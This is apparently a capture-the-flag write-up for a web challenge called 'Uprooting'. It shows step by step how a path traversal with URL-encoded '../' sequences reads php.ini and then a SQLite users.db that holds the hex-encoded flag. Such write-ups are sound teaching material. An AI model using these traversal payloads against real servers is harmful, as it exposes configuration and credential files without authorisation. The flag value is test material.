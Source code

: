 **Name**: Uprooting  
**Points**: 600  
**Instructions**: There is a website running at http://challenges.runesec.com:53945. Misconfigurations sometimes kill the cats  
**Hint**: Some things are just relative...  

## Exploration
- From the name of this challenge and the given hint, we can guess that the website provided is vulnerable to [path traversal](https://www.owasp.org/index.php/Path_Traversal) attacks.  
- We are given a login interface (Username & Password.) We attempt to login, and as expected, we can't go through, but we get the following message from `/login.php`:  
> Cannot access php config file  

- Based on the instructions for this challenge, and the message we get when we attempt to login, we should start by looking for a PHP configuration file.

## Exploitation
The default configuration file for PHP is named `php.ini`. We can try finding it using relative path traversals.  
- 1st attempt: `/php.ini`  
- 2nd attempt: `/../php.ini`  

*(Maybe we should URL encode `../` to `%2e%2e%2f`)*  

- 3rd attempt: `/%2e%2e%2fphp.ini`  

*(Bingo!)*  

The file has the following content:  
`database_file = "users.db";`  

No we can try find `users.db`.  

`/%2e%2e%2fusers.db` works and we get the following:  
`SQLite format 3@ -� ��@atableusersusersCREATE TABLE users (id integer, flag text) ��R	�)0x666c61677b31303465636536666138373164336365663963303865363939623133656338397d`  

We grab that hex string at the end and convert it to UTF8 to get the flag.

## Notes
We were lucky `php.ini` was only 1 level up from the directory `index.html` resides; the relative path could've been more complicated.  

The directory structure on the server was - more or less - the following:   
.  
├── webroot  
│   ├── index.html <- *we start from here*  
│   └── login.php  
├── php.ini        <- *we can get here with `../`*  
└── users.db
